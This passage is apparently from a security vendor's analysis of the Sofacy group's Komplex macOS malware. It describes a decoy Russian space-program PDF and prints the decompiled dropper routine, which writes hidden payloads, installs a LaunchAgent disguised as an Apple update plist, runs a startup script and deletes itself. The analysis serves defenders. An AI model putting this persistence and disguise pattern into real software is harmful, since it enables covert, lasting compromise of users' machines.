 




Figure 1 Main function within the Komplex binder
The binder component saves a decoy document named roskosmos_2015-2025.pdf to the system and opens it using the Preview application built into OS X. Figure 2 shows a portion of the 17 page decoy document. This document is titled “Проект Федеральной космической программы России на 2016 - 2025 годы” and describes the Russian Federal Space Program’s projects between 2016 and 2025. We do not have detailed targeting information regarding the  Sofacy group's attack campaign delivering Komplex at this time; however, based on the contents of the decoy document, we believe that the target is likely associated with the aerospace industry.

Figure 2 Decoy document opened by Komplex binder showing document regarding the Russian Space Program
Komplex Dropper
The Komplex dropper component is saved to the system as “/tmp/content” (SHA256: 96a19a90caa41406b632a2046f3a39b5579fbf730aca2357f84bf23f2cbc1fd3) and is responsible for installing a third executable to the system and setting up persistence for the third executable to launch each time the OS X operating system starts. This dropper also provided the basis for the name “Komplex”, which is seen in several folder paths that were included within the Mach-O file, such as “/Users/kazak/Desktop/Project/komplex".
The Komplex dropper is fairly straightforward from a functional perspective, as it contains all of its functionality within its “_main” function. The “_main” function (Figure 3) accesses data within three variables named ‘_Payload_1’, ‘_Payload_2’ and ‘_Payload_3’, and writes them to three files on the system.





int _main(int arg0, int arg1) {
    var_38 = [[NSAutoreleasePool alloc] init];
    var_40 = [NSData dataWithBytes:_Payload_1 length:0x15c1c];
    var_48 = [NSData dataWithBytes:_Payload_2 length:0x201];
    var_50 = [NSData dataWithBytes:_Payload_3 length:0x4c];
    system("mkdir -p /Users/Shared/.local/ &> /dev/null");
    system("mkdir -p ~/Library/LaunchAgents/ &> /dev/null");
    [var_40 writeToFile:@"/Users/Shared/.local/kextd" atomically:0x1];
    [var_48 writeToFile:@"/Users/Shared/com.apple.updates.plist" 
atomically:0x1];
    [var_50 writeToFile:@"/Users/Shared/start.sh" atomically:0x1];
    system("cp /Users/Shared/com.apple.updates.plist 
$HOME/Library/LaunchAgents/  &>/dev/null");
    remove("/Users/Shared/com.apple.updates.plist");
    system("chmod 755 /Users/Shared/.local/kextd");
    system("chmod 755 /Users/Shared/start.sh");
    var_58 = [[NSTask alloc] init];
    [var_58 setLaunchPath:@"/Users/Shared/start.sh"];
    [var_58 launch];
    [var_58 waitUntilExit];
    remove("/Users/Shared/start.sh");
    remove(*arg1);
    [var_38 release];
    return 0x0;
}
